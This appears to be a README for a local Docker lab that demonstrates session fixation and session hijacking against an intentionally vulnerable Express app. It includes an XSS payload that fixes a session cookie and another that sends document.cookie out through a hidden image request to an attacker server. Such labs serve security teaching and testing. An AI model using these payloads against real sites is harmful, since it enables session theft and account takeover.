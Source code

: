 # Example

Check for session fixation
Login with: `admin` `istrator`

enter

`<script>document.cookie='connect.sid=12345;path=/'</script>`

# Docker

## Copose

`docker-compose` up in `docker` folder

### Single Docker Builds

#### Victim Server

goto `docker/victimserver` folder

`docker build -t sessionvictimserver .`
`docker run -ti --rm -p 127.0.0.1:3000:3000 sessionvictimserver`

visit [http://localhost:3000/sessionxss/login](http://localhost:3000/sessionxss/login)

#### Attacker Server

goto `docker/attackerserver` folder

Python + SimpleHTTPServer

## Payloads

### Session Hijacking / get Cookies

#### By Hidden Image

```
<script>img = document.createElement("img");img.src = "http://localhost/"+document.cookie;img.style.display = "none";x = document.getElementsByTagName("BODY")[0];x.appendChild(img);</script>
```

# Code 

goto `docker/victimserver/files`

## Installation

npm install --save express@4.16.2 pug@2.0.0-rc.4 body-parser@1.18.2 multer@1.3.0 sqlite3@3.1.13 cookie-parser@1.4.3 express-session@1.15.6
npm install nodemon

## Execution

run: `nodemon index.js`
goto: http://localhost:3000/sessionxss/login
